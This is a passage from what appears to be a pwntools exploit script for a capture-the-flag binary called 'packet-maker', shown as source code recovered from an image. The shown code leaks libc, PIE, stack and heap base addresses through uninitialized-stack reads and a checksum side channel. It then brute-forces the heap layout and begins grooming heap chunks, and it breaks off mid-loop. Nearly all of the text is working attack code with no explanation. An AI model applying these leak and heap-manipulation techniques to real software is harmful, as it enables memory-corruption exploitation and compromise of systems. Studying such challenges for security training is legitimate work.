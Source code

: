 ```py
        libc = ELF('./libc.so.6', False)
    else:
        p = process('./packet-maker', aslr=1)
        libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', False)

    # 1. leak libc, pie, stack (uninitialized stack)
    pl = b'\x80'*0x1
    sz = len(pl) + 4 + 4    # 4(protocol length) + 4(3bytes to leak)
    libc.address = leak_8(3) + 0x80 - libc.sym._IO_2_1_stdout_

    pl = b'\x01'*0x10
    sz = len(pl) + 4 + 5    # 4(protocol length) + 5(4bytes to leak)
    pie = leak_8() - 0x4020

    pl = b'\x01' * 0x40
    sz = len(pl) + 4 + 5    # 4(protocol length) + 5(4bytes to leak)
    stack = leak_8()
    if stack == -1:
        log.failure("stack leak failed")
        p.close()
        continue

    # 2. leak heap (using packet->prev and pie)
    addPacket(0x1, 1, b'\x00')
    addPacket(0x1, 1, b'\x00')
    p.recvuntil(b"checksum : ")
    checksum = ((~int(p.recvline(), 16) + 1) & 0xFFFFFFFF)
    heap = (checksum - (pie >> 32) - 1 - 0x300) | (pie & 0xFFFF00000000)
    if heap & 1 == 1:
        heap -= 1

    if heap & 0xFFF != 0:
        log.failure("heap leak failed")
        p.close()
        continue 
    
    # check heap address for exploit
    A = (heap >> 24) & 0xF
    B = (heap >> 20) & 0xF
    D = (heap >> 12) & 0xF
    if B != 0:
        log.failure("heap bruteforce failed")
        p.close()
        continue

    elif A == D:
        log.failure("heap bruteforce failed")
        p.close()
        continue

    log.success(f"pie base @ 0x{pie:x}")
    log.success(f"heap @ 0x{heap:x}")
    log.success(f"libc base @ 0x{libc.address:x}")
    log.success(f"stack @ 0x{stack:x}")
    
    # 3. allocate the chunks until A be equal with D
    top = heap + 0x380
    cnt = 1
    while A != D:
        addPacket(1, 1, b'\x00')
        cnt += 1
        top += 0x90
        D = (top >> 12) & 0xF
```